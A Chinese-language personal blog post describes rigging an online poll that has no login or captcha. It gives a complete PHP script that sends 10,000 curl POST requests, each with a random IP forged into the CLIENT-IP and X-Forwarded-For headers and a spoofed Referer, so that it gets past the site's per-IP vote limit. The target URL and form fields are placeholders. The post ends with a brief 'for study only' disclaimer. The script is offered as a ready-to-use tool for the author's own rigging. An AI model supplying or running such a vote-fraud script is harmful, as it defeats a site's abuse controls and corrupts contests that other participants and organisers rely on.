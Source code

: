 ```yaml
---
layout: post
title : 投票脚本
category : program
tags : [program,php]
---
```

{% include JB/setup %}

最近有个投票活动,我看到大部分人都是几百票,然而少数人却是几万票,这明显就是刷票的行为.于是就研究了一下如何刷票.

由于这个投票网站不需要登录,也没有验证码,只是限制了IP而已,所以实现起来比较简单.起初我想用java来写的.但是查了一下资料,进展不是很顺利.突然想起来以前包子在河畔上发过一个php投票脚本.于是找到了这个帖子,研究一了一下.发现curl真是个牛逼的东西.

好了,下面说一下思路.主要是需要知道下面2点:

	1 form的action地址
	2 需要提交的键值

下面是脚本代码:
```php
<?php
for($count = 0; $count < 10000; $count++) {
	//sleep(1)
	// 随机生成IP
	$ip = '';
	for($i = 0; $i < 4; $i++) {
	    $ip .= mt_rand(1,255);
	    if($i == 3) break;
	    $ip .= '.';
	}
	// 设置HTTP头部变量
	$h['CLIENT-IP'] = $ip;
	$h['X-FORWARDED-FOR'] = $ip;
	$header = array();  
	foreach($h as $k => $v ) {  
	    $header[] = $k .':' . $v;  
	}
	// 设置POST信息
	$postData = "这里为需要提交的键值";
	//初始化curl句柄
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, "form的action地址");
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
	// 伪造HTTP头部
	curl_setopt($ch, CURLOPT_HTTPHEADER , $header );
	curl_setopt($ch, CURLOPT_REFERER, "投票页面地址");
	//curl_setopt($ch, CURLOPT_HEADER, 1);
	curl_setopt($ch, CURLOPT_POST, 1);
	curl_setopt($ch, CURLOPT_POSTFIELDS, $postData);
	$out = curl_exec($ch);
	curl_close ($ch);
	echo $out.' '.$count.' '.$ip;
	echo "\n";
}
?>
```

以上代码仅供交流学习,不要乱用哈!
